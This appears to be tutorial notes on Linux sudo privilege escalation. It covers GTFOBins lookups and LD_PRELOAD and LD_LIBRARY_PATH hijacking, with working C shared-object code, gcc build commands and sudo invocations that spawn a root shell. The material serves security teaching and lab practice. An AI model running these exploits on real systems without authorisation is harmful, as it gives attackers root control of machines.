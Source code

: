 # SUDO
The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges.

Any user can check its current situation related to root privileges using the command:
```
sudo -l
```
Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.
Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

## 📌Environment Variables:
Sudo can be configured to inherit certain environment variables from the user's environment.
Check which environment variables are inherited (look for the env_keep options):
```
sudo -l
```
**LD_PRELOAD** and **LD_LIBRARY_PATH** are both inherited from the user's environment. 
- **LD_PRELOAD:** loads a shared object before any others when a program is run.
- **LD_LIBRARY_PATH:** provides a list of directories where shared libraries are searched for first.

### 🔴Exploiting LD_PRELOAD:
LD_PRELOAD is a function that allows any program to use shared libraries. This blog post will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.
The steps of this privilege escalation vector can be summarized as follows:
1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
We need to run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
This will result in a shell spawn with root privileges.

### 🔴Exploiting LD_LIBRARY_PATH:
The LD_LIBRARY_PATH variable tells Linux where to look for shared libraries. If sudo allows this variable to be inherited, we can trick a root process into loading a malicious library.

**Step 1: Check Apache2 Dependencies**
```
ldd /usr/sbin/apache2
```
- **ldd** lists all shared libraries used by Apache2.
- Find a commonly used library name (e.g., libcrypt.so.1).

Example output:
```
libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f8a2d0f7000)
```
This means Apache2 loads **libcrypt.so.1** from the system libraries. We will replace it with a malicious version.

**Step 2: Create a Fake Malicious Library**
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /<PATH>/library_path.c
```
- Creates a fake **libcrypt.so.1** in **/tmp**.
- The file contains malicious code that executes a root shell.

Script of library_path.c is:
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
**Step 3: Force Apache2 to Load the Fake Library**
```
sudo LD_LIBRARY_PATH=/tmp apache2
```
- Tells Apache2 to search /tmp first for libraries.
- Since we placed a fake libcrypt.so.1 in /tmp, Apache2 loads our malicious code, giving us root access.
✅ Root shell acquired!
